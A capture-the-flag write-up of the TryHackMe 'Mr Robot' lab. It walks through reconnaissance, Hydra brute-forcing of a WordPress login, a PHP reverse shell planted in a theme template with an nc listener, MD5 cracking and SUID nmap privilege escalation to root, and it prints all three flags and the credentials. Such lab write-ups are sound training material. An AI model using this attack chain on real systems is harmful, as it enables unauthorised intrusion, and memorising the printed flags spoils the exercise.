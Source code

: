# Room: Mr Robot

## General Info
- **Room link:** [Mr Robot](https://tryhackme.com/room/mrrobot)

---

## Description

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners intermediate users. There are 3 hidden keys located on the machine, can you find them?

---

## Provided Files / Links
- [x] Target Machine IP (10.10.48.69) => created host robot.thm

---

## Enumeration / Recon
- Ports Enumeration

`nmap -sV robot.thm -O`

```
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-09 03:15 EDT
Nmap scan report for robot.thm (10.10.48.69)
Host is up (0.022s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 3.13 (89%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Linux 5.4 (88%), Linux 3.12 (87%), Linux 3.2 - 3.5 (87%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.05 seconds

```

  - Notes:
    - Seems like SSH is closed
    - HTTP is open
    - Target machine OS seems to be Linux

- Website visit

A series of scenes from the TV show are displayed when you select commands from a terminal.
When selecting the commands, I get some prints in the console such as:

```
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : prepare", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : prepare" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : Help", "Features", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : Help" ]
Array [ "ROUTE:", "fsociety" ]
Array(5) [ {\u2026}, "Mr. Robot : Who Is Mr. Robot : fsociety", "Video", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : fsociety" ]
Array [ "ROUTE:", "question" ]
Array(5) [ {\u2026}, "Mr. Robot : Who is Mr. Robot : FSociety Gallery : Photo 1", "Gallery", "Mr. Robot : Who Is Mr. Robot", "Mr. Robot : Who Is Mr. Robot : FSociety Gallery" ]
```

- Directories Enumeration

`gobuster dir -u http://10.10.48.69 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster.txt`

 - /admin => redirect to /admin/index.html but something is broken here
 - /login => redirect to /wp-login.php (WordPress website)
 - /license => `what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?`
 - /readme => `I like where you head is at. However I'm not going to help you. `
 - /robots => (of course :-)) `fsocity.dic` and well `key-1-of-3.txt`

I downloaded the `fsocity.dic` dictionnary (pretty sure it will be usefull later).
With this finding, I immediately went to http://robot.thm/key-1-of-3.txt and found the 1st flag: **073403c8a58a1f80d943455fb30724b9**


---

## Exploitation / Analysis

### Wordpress Website

Credentials search
------------------

Before running any WP vulnerability scanner, I played around the login form. I first tried to find exploits with the reset password feature but I didn't find anything relevant. I then noticed the following error message when trying random username/password pairs in the login form: `ERROR: Invalid username.`
This is a bad authentification implementation and I'm going to try bruteforcing the credentials in 2-steps:
  
1st step: bruteforce the username
2nd step: bruteforce the password with the correct username

In the previous /robots directory, I found a `fsocity.dic` dictionnary and I'll use it to find the username.
I had a quick look at the login POST request to find the correct username and password parameters.

1st Step:

Hydra command: `hydra -L fsocity.dic -p testpass 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`
Result: `[80][http-post-form] host: 10.10.48.69   login: Elliot   password: testpass`

The username is **Elliot**.

2nd Step:

I will try to use the fsocity.dic first (858160 words) before using a bigger wordlist.

Hydra command: `hydra -l Elliot -P fsocity.dic 10.10.48.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`

The password is **ER28-0652**.

Website access
--------------

With the credentials, I was able to log in.
I then had a quick look at the plugins (11 plugins, a vulnerability assessment can be done later).
I went to the users section and found another user **krista Gordon** with the username **mich05654**.
In the user's page, the following text in the Biographical info: **another key?**.
I went on the website http://mrrobot.wikia.com/wiki/Krista_Gordon that was listed in the page to try my luck but didn't find any relevant information (I just found this sentence at the top of the page  **Communication is key,Elliot.**, but really didn't look into it too long).

There was not useful information in the other pages and I wanted to try to exploit the theme editor setting via RCE.
I used a php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pasted it in the archives (archive.php) template page and changed the IP and port.

I then created a listener `nc -nlvp 33456` on my machine.
I accessed the reverse shell on http://10.10.48.69/wp-content/themes/twentyfifteen/archive.php and I was in the target machine.

### Target Machine Access


I stabilized the shell `python -c 'import pty; pty.spawn("/bin/bash")'`.
I am now a daemon user in the system.
I cannot get root access right away.
When looking into the home directory, I found a robot directory and was able to locate the second key and an encrypted password:
```
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
I don't have the permission to read the key yet but i can read the hash.

Here comes John the Ripper to crack the md5 hash `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` and the result `abcdefghijklmnopqrstuvwxyz`.
I can now switch to the robot user (`su robot`) with the password and cat the 2nd key **822c73956184f694993bede3eb39f959**.

For privilege escalation, I downloaded `linpeas.sh` in the /tmp directory and executed the script.
I found this information that I can exploit: `-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap` (listed in the Files with interesting Permissions section).
In the https://gtfobins.github.io/gtfobins/nmap/ page, I found that nmap can be used to break out from restricted environments by spawning an interactive system shell on older versions (in this machine nmap version is 3.81).

I then used the following commands:
```
nmap --interactive
nmap> !sh
```
And I am now root.
I found the last flag in the root folder **04787ddef27c3dee1ee161b21670b4e4**.

## Final considerations

I actually didn't notice that the page /license that was found during directories enumeration was scrollable.
At the bottom of the page was the following string `ZWxsaW90OkVSMjgtMDY1Mgo=` that was giving me the correct username/password pair for the WordPress website authentification (**elliot:ER28-0652** when you decode it).
